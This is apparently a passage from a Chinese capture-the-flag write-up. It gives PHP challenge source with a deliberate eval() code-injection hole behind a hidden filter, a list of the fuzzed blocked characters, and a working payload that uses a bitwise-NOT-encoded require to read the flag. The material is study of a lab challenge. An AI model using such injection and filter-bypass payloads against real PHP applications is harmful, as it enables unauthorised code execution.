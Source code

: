 ```php
}

isset($_COOKIE['secret']) ? $json = $_COOKIE['secret'] : setcookie('secret', '{"secret":"' . strtoupper(md5('y1ng')) . '"}', time()+7200 );
checkCookie($json) ? $obj = @json_decode($json, true) : die('no');

if ($obj && isset($_GET['give_me_shell'])) {
    ($obj['secret'] != $flag_md5 ) ? haveFun($flag) : echo "here is your webshell: $shell_path";
}

die;
```

#### 第二层

```php
<?php
error_reporting(0);
session_start();

//there are some secret waf that you will never know, fuzz me if you can
require "hidden_filter.php";

if (!$_SESSION['login'])
    die('<script>location.href=\'./index.php\'</script>');

if (!isset($_GET['code'])) {
    show_source(__FILE__);
    exit();
} else {
    $code = $_GET['code'];
    if (!preg_match($secret_waf, $code)) {
        //清空session 从头再来
        eval("\$_SESSION[" . $code . "]=false;"); //you know, here is your webshell, an eval() without any disabled_function. However, eval() for $_SESSION only XDDD you noob hacker
    } else die('hacker');
}

```

fuzz过滤了

```
f、sys、include
括号、引号、分号
^ &等运算符
空格 / \ $ ` * #等符号
```

payload 读取flag

```
?code=]=1?><?=require~%d0%99%93%9e%98?>
```
